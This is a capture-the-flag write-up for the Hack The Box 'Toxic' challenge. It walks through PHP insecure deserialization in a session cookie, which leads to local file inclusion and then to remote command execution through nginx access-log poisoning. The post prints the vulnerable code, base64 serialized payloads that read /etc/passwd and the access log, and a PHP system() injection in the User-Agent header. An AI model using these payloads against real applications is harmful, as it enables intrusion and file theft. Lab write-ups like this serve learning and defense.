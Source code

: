 ```yaml
---
title:  "PHP Insecure Deserialization"
date:   2023-12-30
categories: Cybersecurity Hack-The-Box
---
```

![card](/assets/images/toxic/Toxic.png)
This is a WriteUp of the HTB Challenge Toxic. The challenge is delivered with the full source code of the web application, written in PHP.

## Enumeration
The application does a few interesting things. Inside of `index.php` we can see how the PHPSESSID cookie is generated. It sets the cookie to a base64 encoded serialization of the `PageModel` object.

```
<?php
spl_autoload_register(function ($name){
    if (preg_match('/Model$/', $name))
    {
        $name = "models/${name}";
    }
    include_once "${name}.php";
});

if (empty($_COOKIE['PHPSESSID']))
{
    $page = new PageModel;
    $page->file = '/www/index.html';

    setcookie(
        'PHPSESSID', 
        base64_encode(serialize($page)), 
        time()+60*60*24, 
        '/'
    );
} 

$cookie = base64_decode($_COOKIE['PHPSESSID']);
unserialize($cookie);

```

If we look at the `PageModel` class, we see the following:

```
<?php
class PageModel
{
    public $file;

    public function __destruct() 
    {
        include($this->file);
    }
}
```

A `PageModel` object contains a file. This file is included as soon as the object ist destroyed. Since the file set at the creation of the object is `/www/index.html`, this leads to the file being displayed in the browser.

If we intercept a GET request with Burp, we can see the cookie, which was set:

![Alt text](/assets/images/toxic/image.png)

Decoding the `PHPSESSID`, we can see the serialized `PageModel` object.

```
$ echo "Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxNToiL3d3dy9pbmRleC5odG1sIjt9" | base64 -d
O:9:"PageModel":1:{s:4:"file";s:15:"/www/index.html";}
```

# Exploitation
Using all of this information, we can see that this website is vulnerable to Local File Inclusion (LFI) by changing the `PHPSESSID` cookie to contain a different file than `/www/index.html`. When our changed `PageModel` object gets deserialized, the `__destruct()` method on it gets called and the file gets included, which leads to it being displayed on the website.

```
$ echo -n 'O:9:"PageModel":1:{s:4:"file";s:11:"/etc/passwd";}' | base64
Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxMToiL2V0Yy9wYXNzd2QiO30=
```
![Alt text](/assets/images/toxic/image1.png)

As we can see in `entrypoint.sh` the flag gets generated wit five random characters at the end of the file name. This means we can't just include it directly but have to get Remote Command Execution (RCE) on the box first.

```
#!/bin/ash

# Secure entrypoint
chmod 600 /entrypoint.sh

# Generate random flag filename
mv /flag /flag_`cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 5 | head -n 1`

exec "$@"
```
To get RCE from LFI, we can include the access log of the webserver `/var/log/nginx/access.log` in the `PHPSESSID` and sneak some PHP code into our user agent: `User-Agent: <?php system('ls -l /');?>`. This gets executed, as soon as the file is included. Important to note is, that the result of the RCE is only visible after sending a second GET request, because the entry to the log is made after it is already included.

```
$ echo -n 'O:9:"PageModel":1:{s:4:"file";s:25:"/var/log/nginx/access.log";}' | base64
Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNz
LmxvZyI7fQ==

```

![Alt text](/assets/images/toxic/image2.png)

Now we see the flag file `flag_i6VvW`, which we now can look at.

![Alt text](/assets/images/toxic/image3.png)